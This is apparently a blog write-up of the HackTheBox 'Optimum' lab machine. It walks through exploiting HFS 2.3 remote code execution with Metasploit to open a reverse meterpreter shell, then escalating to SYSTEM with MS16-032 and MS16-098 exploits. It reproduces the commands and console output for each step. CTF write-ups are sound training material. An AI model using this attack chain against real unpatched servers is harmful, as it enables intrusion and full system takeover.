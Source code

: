```yaml
---
layout: post
title: HackTheBox | Optimum
date: 2018-07-03 23:00:00 +0000
categories: hackthebox
image:
  feature: optimum.jpg
  credit: 
  creditlink: 
---
```


This post describes multiple attacks upon the Optimum box on [hackthebox.eu](http://hackthebox.eu).  

Introduction
==========
This is a particularly interesting box.  Getting a shell is easy, perhaps one of the easiest on the site, but escalating evades a number of people, despite, in theory, also being very easy.  Originally, I cracked this box in a non-intended manner, so there are multiple ways of achieving the same result.  What you should take away from this box is that the details are important and you can't let exploit kits do all the heavy lifting for you.  With that out of the way, lets get onto the exploitation.
	

Enumeration
=====
```bash
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
|_http-server-header: HFS 2.3
|_http-title: HFS /
```

So this gives us one service, a HFS file server.  A quick search reveals that this version, v2.3, is in fact vulnerable to [remote code execution](https://www.exploit-db.com/exploits/39161/).  That's pretty handy, so we can likely get a shell very quickly.  A further search reveals that this version also has a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec) for it, so we can get a meterpreter shell even easier, and considering it's a windows box, that's a life-saver (I'll kick the habit some day I swear!!).  So let's run the module and have a look around.

```bash
msf exploit(rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
There doesn't appear to be much we need to set here bar the RHOST.  We're assuming from nmap that the TARGETURI is simply /, and it doesn't take more than a quick run to confirm this.

```bash
msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8

msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.13.202:4444 
[*] Using URL: http://0.0.0.0:8080/HathpeeW54bHa75
[*] Local IP: http://192.168.117.130:8080/HathpeeW54bHa75
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /HathpeeW54bHa75
[*] Sending stage (957487 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.13.202:4444 -> 10.10.10.8:49189) at 2017-05-18 18:02:39 +0100
```

Boom we have a shell!  Now lets escalate!

Privilege Escalation - Method 1
=======
I spent a lot of time rooting (hehehehe) around on this box, but came to the conclusion that it absolutely had to be vulnerable to [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc), but couldn't for the life of me get it to work.  The device wasn't patched recently, and the exploit was famous for being fairly consistently, so in my head it had to work.  I tried the [powershell exploit](https://www.exploit-db.com/exploits/39719/) and the [metasploit one](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc), but nothing gave me a shell.  Hindsight is 20/20, and while I initially exploited it via the second, it's a good idea to see how both methods work.

Exploiting the metasploit module requires a number of different options set.  Firstly, we need to ensure we have a 64 bit meterpreter.  We can just set this before we run the rejetto hfs exploit to give us a shell.

```
msf exploit(rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
So now we absolutely have an x64 based shell, after some enumeration using systeminfo and `post/multi/recon/local_exploit_suggester`, we discover that the machine is vulnerable to [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc).  So lets background the shell and load up this module.

```
meterpreter > background 
[*] Backgrounding session 2...
msf exploit(rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf exploit(ms16_032_secondary_logon_handle_privesc) > show options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf exploit(ms16_032_secondary_logon_handle_privesc) > set SESSION 2
SESSION => 2
msf exploit(ms16_032_secondary_logon_handle_privesc) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64
```

From this, we see that the machine has two targets, one for x86 and one for x64.  Since, obviously, we're targeting an x64 based machine we need to select the correct target.

```bash
msf exploit(ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
```

So now we just run the exploit the exploit and we'll pop a system shell.

Privilege Escalation - Method 2
=====
An absolutely fantastic tool is windows-exploit-suggester.  It takes the list of patches output by systeminfo, and compares this to a database of microsoft patches, attempting to supply a list of exploits to target the machine.  This is an inefficient method, but at the time whilst desperately searching for an exploit, it gave me a way of more effectively targeting my search.  

Run `systeminfo` in a shell on the remote pc, and save it in a file called 'systeminfo.txt' on your local machine.

```bash
root@kali:~/Windows-Exploit-Suggester-master# python windows-exploit-suggester.py --database 2017-05-25-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
-- SNIP---
[*] done
```

The method I used here probably isn't as applicable to real-world as I'd want, considering a couple of these crashed Optimum but gave me no shell.  But luckily, very shortly down the list, is MS16-098, which gave me a shell, and them promptly crashed the box once I exited.  So nowhere near as stable as MS16-032 but another entry point into the box.

Exploiting this was simply a matter of downloading the executable from the remote site (we probably should compile it ourselves in future), using meterpreter to upload and then running the executable.

```bash
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
